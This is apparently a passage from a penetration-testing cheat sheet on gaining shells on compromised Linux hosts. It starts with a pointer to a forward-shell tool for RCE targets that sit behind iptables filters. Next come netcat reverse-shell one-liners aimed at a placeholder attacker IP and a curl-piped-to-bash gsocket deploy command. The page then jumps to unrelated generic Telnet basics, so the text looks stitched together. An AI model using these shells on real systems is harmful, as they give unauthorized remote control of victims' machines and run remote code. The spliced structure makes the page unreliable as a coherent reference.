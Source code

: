 If you encounter an **RCE vulnerability** within a Linux-based web application, there might be instances where **obtaining a reverse shell becomes difficult** due to the presence of Iptables rules or other filters. In such scenarios, consider creating a PTY shell within the compromised system using pipes.

You can find the code in [**https://github.com/IppSec/forward-shell**](https://github.com/IppSec/forward-shell)

You just need to modify:

* The URL of the vulnerable host
* The prefix and suffix of your payload (if any)
* The way the payload is sent (headers? data? extra info?)

Then, you can just **send commands** or even **use the `upgrade` command** to get a full PTY (note that pipes are read and written with an approximate 1.3s delay).

## Netcat
```bash
nc -e /bin/sh <ATTACKER-IP> <PORT>
nc <ATTACKER-IP> <PORT> | /bin/sh #Blind
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER-IP> <PORT> >/tmp/f
nc <ATTACKER-IP> <PORT1>| /bin/bash | nc <ATTACKER-IP> <PORT2>
rm -f /tmp/bkpipe;mknod /tmp/bkpipe p;/bin/sh 0</tmp/bkpipe | nc <ATTACKER-IP> <PORT> 1>/tmp/bkpipe
```
## gsocket

Check it in [https://www.gsocket.io/deploy/](https://www.gsocket.io/deploy/)
```bash
bash -c "$(curl -fsSL gsocket.io/x)"
```
### Introduction

Telnet is a network protocol that allows you to establish a remote connection to a device over the internet or a local network. It is commonly used for remote administration and troubleshooting purposes.

### Telnet Client

To connect to a remote device using Telnet, you need a Telnet client. Most operating systems have a built-in Telnet client, but you can also use third-party software like PuTTY or SecureCRT.

### Telnet Commands

Once you have established a Telnet session, you can use various commands to interact with the remote device. Some common Telnet commands include:

- **open**: Establish a connection to a remote device.
- **close**: Close the current Telnet session.
- **quit**: Exit the Telnet client.
- **help**: Display a list of available Telnet commands.
- **login**: Authenticate yourself with the remote device.
- **logout**: Terminate your session with the remote device.
